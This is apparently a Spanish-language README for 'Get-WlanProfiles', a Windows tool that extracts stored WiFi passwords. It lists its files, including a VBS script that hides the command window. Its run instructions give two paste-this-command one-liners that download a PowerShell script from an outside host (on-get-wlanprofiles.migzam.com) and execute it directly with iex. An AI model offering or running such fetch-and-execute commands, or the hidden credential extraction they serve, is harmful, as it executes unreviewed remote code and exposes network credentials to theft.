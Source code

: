 # Get-WlanProfiles

### Extraer/Obtener contraseñas de WIFI almacenadas en Windows.
Archivos:
<br>Get-WlanProfiles.bat
<br>Get-WlanProfiles.psm1
<br>On-Get-WlanProfiles.ps1
<br>config.vbs - oculta ventana CMD

# Como Ejecutarlo
## Local
-Descague los archivos
<br>-Ejecute el archivo Get-WlanProfiles.bat o en su defecto confi.vbs

## Sin descargar - WEB
### PowerShell
-Abra Powershell<br>
-Pegue y ejecute este comando:
```
iwr -useb on-get-wlanprofiles.migzam.com | iex
```
### CMD
-Abra CMD<br>
-Pegue y ejecute este comando:
```
powershell iex ((New-Object System.Net.WebClient).DownloadString('http://on-get-wlanprofiles.migzam.com'))
```
